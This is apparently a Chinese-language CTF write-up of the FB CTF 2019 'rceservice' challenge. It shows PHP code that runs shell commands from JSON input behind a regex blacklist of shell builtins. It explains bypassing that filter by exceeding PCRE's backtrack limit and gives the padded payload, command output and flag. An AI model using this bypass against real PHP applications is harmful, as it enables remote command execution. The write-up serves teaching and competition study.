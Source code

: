 # rceservice

Solved: 31

<br>

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

這題題目很短，用`preg_match`擋了一堆東西

但我們知道PHP有`pcre.backtrack_limit`限制，預設情況下，當回溯超過`1000000`次時，會回傳 `false`

(https://www.php.net/manual/en/pcre.configuration.php)

![](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/)

上圖紅底字就代表發生回溯 (regex101 is your good friend)

Example:

```
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1000000)));
bool(false)
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1)));
int(1)
```

這在一般弱比較(Weak typing)情形下等同匹配成功

(`false == 0` => `true`)

但這邊其實不用管弱比較，因為他直接把`preg_match`回傳值丟進`if`做判斷

所以當回溯超過上限時，回傳`false`，自動就會略過這個`if`，進入到`else`裡面

e.g.

`'{"cmd":"ls -al /home/rceservice/","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!


詳細 payload 見[exp.py](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/exp.py)

flag: `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
